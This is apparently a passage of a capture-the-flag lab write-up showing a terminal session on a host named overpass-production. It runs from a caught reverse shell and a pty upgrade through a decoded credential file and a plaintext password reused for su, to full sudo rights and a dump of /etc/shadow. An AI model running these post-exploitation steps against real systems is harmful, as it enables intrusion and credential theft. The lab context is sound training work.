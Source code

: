 ## Communication on port 4242

/bin/sh: 0: can't access tty; job control turned off
$ 

id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
ssh
$

python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@overpass-production:/var/www/html/development/uploads$ 

ls -lAh

total 8.0K

-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php

www-data@overpass-production:/var/www/html/development/uploads$ 

.overpass

,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.

www-data@overpass-production:/var/www/html/development/uploads$ 

su james

Password: 

whenevernoteartinstant

james@overpass-production:/var/www/html/development/uploads$ 

cd ~

james@overpass-production:~$ 

sudo -l
[sudo] password for james: 

whenevernoteartinstant

```sh
Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ 
```

sudo cat /etc/shadow

```sh
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
```